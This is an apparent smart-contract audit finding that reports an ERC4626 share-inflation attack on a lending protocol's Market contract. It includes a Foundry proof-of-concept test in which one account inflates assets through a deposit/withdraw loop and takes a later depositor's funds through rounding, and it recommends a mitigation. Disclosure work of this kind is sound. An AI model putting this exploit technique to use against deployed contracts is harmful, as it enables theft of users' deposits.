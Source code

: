 Warm Cinnabar Lion

medium

# `Market` is vulnerable to inflation attacks

## Summary

`Market` is vulnerable to inflation attacks occur when the market has no liquidity and an attacker deposits 1 share, donates significant assets and steals the next deposits due to rounding.

## Vulnerability Detail

`Market` uses the `ERC4626` standard by importing the [Solmate](https://github.com/transmissions11/solmate/blob/main/src/tokens/ERC4626.sol) dependency. The inflation attack is well known and is executed in the following steps:
- attacker mints 1 share
- attacker inflates total assets of the protocol
- user deposits some amount, which will round down due to the inflated total assets
- attacker receives the rounding error
It works because when the attacker deposits, the shares it receives are `amount * totalSupply / totalAssets`. If `totalSupply` is 1 and `totalAssets` is a big number, it will likely round down.

The protocol offers some mitigation measures such as the earnings acummulator and the `ERC4626` from Solmate not allowing deposits to round down to 0 shares, but it's still possible.

When there is no liquidity, it's easy for an attacker to transfer assets to the earnings accumulator at no cost by depositing and borrowing in a loop. As it is the owner of the only liquidity, it will receive all assets.

The attack was carried out in a test, add it to `Market.t.sol`:
```solidity
function test_POC_InflationAttack() external {
  market.setEarningsAccumulatorSmoothFactor(0.1e18);
  market.deposit(1, ALICE);
  skip(10 days);

  uint256 maturity = FixedLib.INTERVAL * 2;
  vm.startPrank(ALICE);

  uint256 assets = 10_000 ether;
  ERC20 asset = market.asset();
  deal(address(asset), ALICE, assets + 1);
  
  for (uint i = 0; i < 100; i++) {
    market.depositAtMaturity(maturity, assets, 0, ALICE);
    assets = market.withdrawAtMaturity(maturity, assets, 0, ALICE, ALICE);
  }
  vm.stopPrank();

  skip(1 hours);

  // BOB deposits 1 less than the value of ALICE's position,
  // rounding down to 1 share, giving ALICE the funds
  uint256 preDepositAliceBalance = market.previewRedeem(1);
  uint256 bobAssets = 2*market.previewRedeem(1) - 1;
  assertEq(bobAssets, 7777576343084292348603); // approx 7777 * 1e18
  vm.prank(BOB);
  market.deposit(bobAssets, BOB);
  assertEq(market.balanceOf(BOB), 1);

  // ALICE has 1 share
  assertEq(preDepositAliceBalance, 3888788171542146174302); // approx 3889 * 1e18
  assertEq(market.previewRedeem(1), 5833182257313219261452); // approx 5833 * 1e18
}
```

## Impact

Attacker steals deposits of users.

## Code Snippet

https://github.com/transmissions11/solmate/blob/main/src/tokens/ERC4626.sol
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L232
https://github.com/sherlock-audit/2024-04-interest-rate-model/blob/main/protocol/contracts/Market.sol#L281

## Tool used

Manual Review

Vscode

Foundry

## Recommendation

Make an initial deposit to a trusted address to prevent such attacks.
